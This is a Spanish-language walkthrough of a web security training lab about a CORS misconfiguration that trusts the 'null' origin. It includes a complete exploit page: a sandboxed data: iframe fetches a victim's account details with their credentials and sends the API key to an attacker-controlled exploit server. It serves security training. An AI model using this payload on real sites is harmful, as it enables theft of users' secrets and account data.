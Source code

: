 # 🥳 Laboratorio: Vulnerabilidad CORS con origen nulo confiable

ste sitio web tiene una configuración CORS insegura porque confía en el origen "nulo".

Para resolver la práctica de laboratorio, cree algo de JavaScript que utilice CORS para recuperar la clave API del administrador y cargue el código en su servidor de explotación. La práctica de laboratorio se resuelve cuando envía correctamente la clave API del administrador.

Puede iniciar sesión en su propia cuenta utilizando las siguientes credenciales:wiener:peter



RESOLUCIÓN:

USAMOS EL MISMO SCRIPT CASI IGUAL AL DE CORS BASICO, SOLO QUE PARA LOGRAR QUE LA SSOLICITUDES SE MANDEN CON UN ORIGEN NULO, TUVIMOS QUE IMPLEMENTAR EL SCRIPT COMO VALOR DEL PARAMETRO src="data:text/html, DENTRO DE UNA ETIQUETA IFRAME, Y EN ESTA TAMBIEN LA CARGAMOS CON EL PARAMETRO SANDBOX Y VALORES "allow-scripts allow-top-navigation allow-forms" LOGRANDO ASI; QUE CUANDO LA VICTIMA EJECUTA NUESTRO LINK MALICISIO ESTE REALICE UNA SOLICITUD NULA Y OBTENER EN EL LOG DE NUESTRO SERVIDOR LAS CREDENCIALES DE API KEY.

CORROVOIRAMOS EN LA SOLICITUD DE ACOUNTDETAILING QUE PODEMOS CARGAR UN ORIGEN CRUZADO Y NOS RESPONDE CON Access-Control-Allow-Origin: NULL y Access-Control-Allow-Credentials: true COMPROBANDO ASI QUE PODEMOS REALIZAR UNA SOLICITUD CRUZADA A TARVES DE NUESTRO SERVIDOR MALISIOSO POR ACEPTAR ACCESO A ORIGENES COMO NULOS, USANDO AL USUARIO VICTIMA, CONSIGUIENDO CON NUESTRO SCRIPT LAS CREDENCIALES DEL MISMO SIENDO ESTAS DE ADMINISTRADOR Y SU API KEY.

```python
// pyth

------------------


SCRIPT PROPIO:


https://0aff009b031a605780ef0dfb0054005c.web-security-academy.net/accountDetails/



<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Ataque P4IM0N- CORS ORIGEN NULO</title>
</head>
<body>
    <h1>Ataque P4IM0N- CORS ORIGEN NULO</h1>

<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
        var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','https://0aff009b031a605780ef0dfb0054005c.web-security-academy.net/accountDetails',true);
	req.withCredentials = true;
	req.send();

	function reqListener() {
	   location='https://exploit-0a78001c032660f680300cb601fa004f.exploit-server.net/log?key='+this.responseText;
	};
</script>"></iframe>
</body>
</html>

```